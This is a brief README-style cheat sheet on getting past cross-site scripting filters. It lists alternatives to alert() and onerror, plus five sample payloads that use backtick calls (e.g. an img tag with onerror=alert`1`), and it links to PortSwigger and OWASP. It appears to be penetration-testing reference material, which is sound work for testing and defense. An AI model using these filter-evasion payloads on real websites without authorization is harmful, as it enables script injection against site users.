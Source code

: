 # XSS Filters Bypass.

if You Are a Beginner then First Clear the Basic Concepts .


* ```alert()``` Alternatives
```
   1)Use confirm() Not alert()
   2)Use prompt() Not alert()
   3)Use console.log() Not alert()
   4)use eval() Not alert()
```

* ```onerror``` Event Handler Alternatives
```
   1)Use onload
   2)Use onfocus
   3)Use onmouseover
   4)Use onblur
   5)Use onclick
   6)Use onscroll   
```
* Note:- if () get filtered then Use \`\` Rather then () , Some Examples Are Below.

```
   1)<script>alert`1`</script>
   2)<img src=x onerror=alert`1`>
   3)<img src=x onerror=prompt`1`>
   4)javascript:prompt`1`
   5)javascript:alert`1`
```
## Resources
- 1:-[Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- 2:-[OWASP](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

## Twitter:[Fani Malik](https://twitter.com/fanimalikhack/)
